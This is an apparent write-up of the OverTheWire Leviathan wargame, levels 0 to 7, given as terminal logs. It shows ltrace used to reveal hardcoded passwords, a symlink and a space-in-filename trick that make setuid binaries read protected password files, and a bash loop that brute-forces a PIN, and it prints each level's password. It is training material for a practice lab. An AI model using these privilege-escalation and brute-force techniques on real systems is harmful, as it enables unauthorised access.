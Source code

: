 

leviathan0@leviathan:~$ ls -la
cd .backup
ls -la
vim boomarks.html
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634"
rioGegei8m


leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x804858d, 1, 0xffffd6f4, 0x8048670 <unfinished ...>
printf("password: ")                                                                              = 10
getchar(0x80486f0, 0, 0xf7e45830, 0x80486bbpassword: taco
)                                                      = 116
getchar(0x80486f0, 0, 0xf7e45830, 0x80486bb)                                                      = 97
getchar(0x80486f0, 0, 0xf7e45830, 0x80486bb)                                                      = 99
strcmp("tac", "sex")                                                                              = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                                              = 29
+++ exited (status 0) +++

leviathan1@leviathan:~$ ./check
password: sex

$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta


leviathan2@leviathan:/etc/leviathan_pass$ ~/printfile /tmp/taco2/\ leviathan3
/bin/cat: /tmp/taco2/: Is a directory
Ahdiemoo1j


leviathan3@leviathan:~$ ltrace ./level3
leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m


leviathan4@leviathan:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
leviathan4@leviathan:~/.trash$ ltrace ./bin
__libc_start_main(0x80484bd, 1, 0xffffd6c4, 0x80485b0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")                                                      = 0
+++ exited (status 255) +++

Binary to string:
Tith4cokei

leviathan5@leviathan:~$ ln -fs /etc/leviathan_pass/leviathan6 /tmp/file.log && ./leviathan5
UgaoFee4li



#!/bin/bash

for i in {1000..9999}
do
  ~/leviathan6 $i
  if [ $? -eq 0 ]; then
    echo $i
    exit
  fi
done
7123
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
